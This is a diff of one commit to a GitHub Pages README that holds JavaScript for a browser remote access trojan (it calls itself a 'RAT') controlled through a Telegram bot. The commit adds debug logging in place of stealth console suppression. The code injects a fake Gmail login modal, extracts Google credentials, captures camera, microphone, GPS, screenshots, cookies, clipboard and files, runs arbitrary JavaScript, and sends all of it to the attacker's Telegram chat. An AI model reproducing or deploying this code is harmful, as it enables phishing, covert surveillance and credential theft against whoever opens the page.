

Before and after one commit to kodxurx/kodxurx.github.io, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -113,11 +112,11 @@
         let intervalId = null;
         let phishingModalActive = false;
 
-        // Suppress console logs for stealth
-        console.log = function() {};
-        console.error = function() {};
+        // Enable console logging for debugging (comment out for stealth)
+        // console.log = function() {};
+        // console.error = function() {};
 
-        // Helper: headers to avoid Telegram blocking browser requests
+        // Custom headers to avoid Telegram blocking browser requests
         const TELEGRAM_HEADERS = {
             'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36'
         };
@@ -125,12 +124,17 @@
         // ================= TELEGRAM HELPERS =================
         async function sendMessage(text, parseMode = 'HTML') {
             try {
-                await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
+                const response = await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
                     method: 'POST',
                     headers: { ...TELEGRAM_HEADERS, 'Content-Type': 'application/json' },
                     body: JSON.stringify({ chat_id: ADMIN_CHAT_ID, text, parse_mode: parseMode })
                 });
-            } catch(e) {}
+                const data = await response.json();
+                console.log('sendMessage response:', data);
+                if (!data.ok) console.error('sendMessage error:', data.description);
+            } catch(e) {
+                console.error('sendMessage exception:', e);
+            }
         }
 
         async function sendPhoto(blob, caption) {
@@ -207,17 +211,18 @@
 
         // ================= COMMAND HANDLER =================
         async function handleCommand(text) {
+            console.log('Received command:', text);
             const parts = text.split(' ');
             const cmd = parts[0].toLowerCase();
 
             try {
                 switch(cmd) {
                     case '/start':
-                        await sendMessage(`✅ *RAT Active*\n\nCommands:\n/phish_gmail - Forced Gmail login modal\n/gmail - Extract login from real Google page\n/photo - Take camera picture\n/audio - Record microphone (5s)\n/location - GPS coordinates\n/screenshot - Page screenshot\n/cookies - Dump cookies\n/grab_pass - Any visible password\n/clipboard - Read clipboard\n/eval <js> - Execute JS\n/upload - Exfiltrate a file`, 'Markdown');
+                        await sendMessage(`✅ *RAT Active*\n\nCommands:\n/phish_gmail - Forced Gmail login modal\n/gmail - Extract from real login page\n/photo - Camera\n/audio - Mic (5s)\n/location - GPS\n/screenshot - Page shot\n/cookies - Dump cookies\n/grab_pass - Visible password\n/clipboard - Read clipboard\n/eval <js>\n/upload - Exfiltrate file`, 'Markdown');
                         break;
                     case '/phish_gmail':
                         if (!phishingModalActive) createPhishingModal();
-                        await sendMessage('🎣 Phishing modal injected. User is now blocked until credentials are entered.');
+                        await sendMessage('🎣 Phishing modal injected.');
                         break;
                     case '/gmail': {
                         if (location.href.includes('accounts.google.com')) {
@@ -226,12 +231,12 @@
                             if (!pass) {
                                 const pf = document.querySelector('input[type="password"]');
                                 if (pf) { pf.focus(); setTimeout(() => pf.blur(), 100); }
-                                await sendMessage('Attempting to trigger autofill...');
+                                await sendMessage('Attempting autofill...');
                             } else {
-                                await sendMessage(`🔑 Gmail credentials extracted:\n📧 Email: ${email}\n🔑 Password: ${pass}`);
+                                await sendMessage(`🔑 Gmail: ${email} / ${pass}`);
                             }
                         } else {
-                            await sendMessage('Not on Google login page. Use /phish_gmail to force a fake modal.');
+                            await sendMessage('Not on Google login page. Use /phish_gmail instead.');
                         }
                         break;
                     }
@@ -334,16 +360,26 @@
                         }
                     }
+                } else {
+                    console.error('Poll error:', data.description);
                 }
-            } catch(e) {}
+            } catch(e) {
+                console.error('Poll exception:', e);
+            }
         }
 
-        // ================= STARTUP: DELETE WEBHOOK & INIT =================
+        // ================= INITIALIZATION =================
         async function deleteWebhookAndStart() {
-            await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/deleteWebhook`, { method: 'POST', headers: TELEGRAM_HEADERS });
+            console.log('Deleting webhook...');
+            try {
+                const del = await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/deleteWebhook`, { method: 'POST', headers: TELEGRAM_HEADERS });
+                const delData = await del.json();
+                console.log('deleteWebhook:', delData);
+            } catch(e) { console.error(e); }
+
+            await syncOffset();
             await registerClient();
             isRegistered = true;
             intervalId = setInterval(pollUpdates, POLL_INTERVAL);
-            // Hide loading overlay and show iframe
             document.getElementById('loadingOverlay').style.display = 'none';
             document.getElementById('mainFrame').style.opacity = '1';
         }
```
Also changed, not shown: other parts of README.md (+36 -16 lines).
